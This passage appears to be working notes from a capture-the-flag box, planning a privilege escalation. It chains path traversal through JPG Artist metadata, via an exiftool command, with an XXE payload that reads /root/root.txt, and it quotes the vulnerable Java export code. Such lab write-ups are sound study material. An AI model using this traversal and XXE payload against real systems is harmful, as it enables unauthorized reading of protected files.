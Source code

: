 Current line of thinking is that we might be able to abuse the Artist jpg metdata to create a bogus path and write out our root flag since this process should have access to it. We're no longer limited by the database varchar size limit on the artist name, which should come in handy.

Our URI _does_ need to be a jpg file, but with how this is formed (a filesystem path) we might be able to store this in a location we control. So the overall steps might be something like:

- Create an image with malicious Artist metadata
- Send a request to that image through a forged database entry that associates it with a panda
- This then writes out a log file in /credits/ with a name we control...
- Can we then abuse `find` to run this? Hmmm...

Reading through some XXE notes, we may be able to leverage a new entity in the file we control to inject a filepath for it to return in the output, in a field we arbitrarily name.

Since we know this is writing to a file location that we can control, and we know that when that file is then read by the other process it must have an author of `woodenk` or `damian`... 

```
      System.out.println("Exporting xml of: " + author);
      if(author.equals("woodenk") || author.equals("damian"))
      {
          InputStream in = new FileInputStream("/credits/" + author + "_creds.xml");
          System.out.println(in);
          return IOUtils.toByteArray(in);
      }
      else
      {
          return IOUtils.toByteArray("Error, incorrect paramenter 'author'\n\r");
      }
  }
```

# WWF? WWE? WCW? Nah... XXE!

Can we do something like this?

- Get an arbitrary image
- Update it with exiftool `exiftool -Artist="../home/woodenk/pwn' <image>.jpg`
  - Note that we need the .. here as it's going to resolve relative to `/credits/` as seen earlier
- Upload that file to `/home/woodenk`
- Create our XXE injection with something based on the actual XML output...

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY injection SYSTEM "file:///root/root.txt"> ]>
<credits>
<author>woodenk</author>
<image>
<uri>/../../../../../../../../home/woodenk/panda.jpg</uri>
<pwn>&injection;</pwn>
<views>1</views>
</image>
</credits>
```
- Save this file to `/home/woodenk/pwn_creds.xml` so that we can request it when the artist is evaluated and we get our path
  - Note, this way it's going to be used by `addViewTo` in the log parser...
- Since we're associating this with another author (woodenk for example) we may get the injection output in that export? Somehow?
 